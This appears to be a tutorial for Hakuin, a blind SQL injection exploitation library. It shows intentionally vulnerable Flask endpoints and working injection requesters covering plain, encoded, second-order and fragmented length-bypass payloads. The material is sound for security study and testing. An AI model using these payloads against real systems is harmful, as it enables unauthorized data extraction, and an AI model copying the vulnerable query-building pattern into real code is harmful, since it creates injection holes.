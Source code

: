 In this tutorial, we introduce Hakuin's most common features and show you how to use it to handle a variety of challenges you may encounter while exploiting BSQLI.


#### Basic Concepts
Consider a simple Flask application with the following endpoint:
```python
@app.route('/users')
def users():
    name = request.args['name']
    query = f'SELECT * FROM users WHERE name="{name}"'
    
    with DB.connect() as conn:
        user = conn.execute(text(query)).fetchone()[0]

    if user:
        return 'found', 200
    return 'oops', 404
```

The `name` parameter is not sanitized, so the endpoint is vulnerable to BSQLI.

To exploit the vulnerability, you need to instruct Hakuin on how to inject its queries. This is done by deriving the `Requester` class and overriding the `request` method. Aside from injecting queries, the method must determine whether they resolved to `True` or `False`.
```python
from hakuin import Requester

class SimpleRequester(Requester):
    async def request(self, query, ctx):
        # inject the query
        payload = query.render(ctx)
        url = f'http://target.com/users?search=XXX" OR ({payload}) --'
        async with aiohttp.request('GET', url) as resp:
            # determine the query result
            return resp.status == 200
```

Pay attention to the glue code in `search=XXX" OR ({payload})`. The`XXX"` part escapes the string literal in `WHERE name="{name}"`, the `--` turns the extra `"` into a comment to avoid breaking the SQL syntax, and the `OR ({payload})` ensures the SQL statement resolves to true if the payload is logically true and vice versa. There are many ways to glue the payload to the SQL statement, be creative!

Also, notice that there are many ways to infer the boolean result of the injected query. In the example above, we checked, whether the `resp.status == 200`, but we could just as well check whether the response includes the string `"found"`.

Now that everything is set, we can start dumping the database (DB). This is done via the `Extractor` class. The `Extractor` requires a `Requester` and the name of the DB management system (DBMS) it should generate queries for. Hakuin currently supports SQLite, MySQL, Postgres, MsSQL, and Oracle (experimental), but will soon include more engines.

Extracting table names can look like this.
```python
import asyncio
import aiohttp
from hakuin import Extractor, Requester

class SimpleRequester(Requester):
    ...

async def main():
    requester = SimpleRequester():
    ext = Extractor(requester=requester, dbms='sqlite')
    data = await ext.extract_table_names()
    print(data)

asyncio.run(main())
```

Although simple, this approach can be used to exploit most BSQLI vulnerabilities. Keep reading.


#### Transforming Payloads
Let's spice things up. Look at the endpoint bellow.
```python
@app.route('/users')
def users():
    data = request.args['data']
    data = base64.b64decode(data).decode()
    name = json.loads(data)['name']
    query = f'SELECT * FROM users WHERE name="{name}"'
    ...
```

Again, the endpoint is vulnerable, but this time the user input goes through a series of transformations before it is inserted into the SQL statement.

The challenge here is to correctly prepare the input to hit the vulnerability. An example exploit is shown below.
```python
class RequesterWithTransformations(Requester):
    async def request(self, query, ctx):
        payload = query.render(ctx)
        data = json.dumps({'name': f'XXX" OR ({payload}) --'})
        data = base64.b64encode(data.encode())
        url = f'http://target.com/users?data={data}'
        async with aiohttp.request('GET', url) as resp:
            return resp.status == 200
```



#### Higher Order Injection Vulnerabilities
Sometimes, the vulnerable endpoint is not the same as the one used to upload payloads. See these endpoints:
```python
SESSION = {
    'name': None,
}

@app.route('/register', methods=['POST'])
def register():
    SESSION['name'] = request.args['name']

@app.route('/profile')
def register():
    name = SESSION['name']
    query = f'SELECT * FROM users WHERE name="{name}"'
    
    with DB.connect() as conn:
        user = conn.execute(text(query)).fetchone()[0]

    if user:
        return 'found', 200
    return 'oops', 404
```

Here, the user provided `name` is stored on the server via the `/register` endpoint and only then it is inserted into the SQL statement via `/profile`.

This second-order vulnerability can be exploited with the following code:
```python
class SecondOrderRequester(Requester):
    async def request(self, query, ctx):
        # upload the payload
        payload = query.render(ctx)
        url = f'http://target.com/register?name=XXX" OR ({payload}) --'
        async with aiohttp.request('post', url):
            pass

        # hit the vulnerable endpoint and infer the result
        url = 'http://target.com/profile'
        async with aiohttp.request('get', url) as resp:
            return resp.status == 200
```


#### Fragmented Injection
In some cases, the vulnerable application may impose input limitations, such as length checks:
```python
@app.route('/users')
def users():
    first_name = request.args['first_name']
    last_name = request.args['last_name']
    assert len(first_name) < 50 and len(last_name) < 50, 'Name too long.'
    query = f'SELECT * FROM users WHERE first_name="{first_name}" AND last_name="{last_name}"'
    ...
```

The main challenge here is dumping the DB with inputs shorter than 50 characters. One approach is to shorten the injected queries and adjust the extraction logic, but there is a simpler way. We can take advantage of the fact that both `first_name` and `last_name` are inserted into the same SQL statement. The trick is to split the payload into two smaller parts, called _fragments_, inject them through the two inputs, and modify the glue code to avoid breaking the syntax. Here’s how we can exploit it:
```python
class FragmentedRequester(Requester):
    async def request(self, query, ctx):
        payload = query.render(ctx)
        frag_1, frag_2 = payload.split('FROM')
        frag_2 = f'FROM {frag_2}'

        url = f'http://target.com/users?first_name=XXX" OR ({frag_1} /*&last_name=*/ {frag_2}) --'
        ...
```

Notice that we split the query at the `FROM` keyword. This prevents the query keywords from being split into multiple fragments, which would break the syntax (e.g., `SELECT column FR` and `OM table`). Additionally, `FROM` is typically near the middle of queries, making it a reasonable splitting point to bypassing length checks.

The glue code has become more complex. As before, the `XXX"` part escapes the string literal, `OR ({frag_1} ... {frag_2})` propagates the boolean query result through the vulnerable statement, and `--` comments out the extra `"`. However, in this case, the glue code must also handle the additional statement code between the two vulnerable inputs, specifically `" AND last_name="`. The easiest way to handle this is by commenting it out using `/* ... */`. Here’s a practical example:
```SQL
-- payload: SELECT column < 42 FROM table LIMIT 1 OFFSET 1
-- frag_1: SELECT column < 42
-- frag_2: FROM table LIMIT 1 OFFSET 1
-- first_name: XXX" OR (SELECT column < 42 /*
-- last_name: */ FROM table LIMIT 1 OFFSET 1) --

-- statement before injection:
SELECT * FROM users WHERE first_name="{first_name}" AND last_name="{last_name}"

-- statement after injection:
SELECT * FROM users WHERE first_name="XXX" OR (SELECT column < 42 /*" AND last_name="*/ FROM table LIMIT 1 OFFSET 1) --"
```



#### More Tutorials Coming Soon
So far, we only explained how to customize the injection and inference logic, but Hakuin allows you to customize everything, even the query generation and extraction logic. We will cover these topics soon.

Additionally, we are writing a high-level overview of the optimization methods used by Hakuin under the hood. The document will be published once ready. Stay tuned.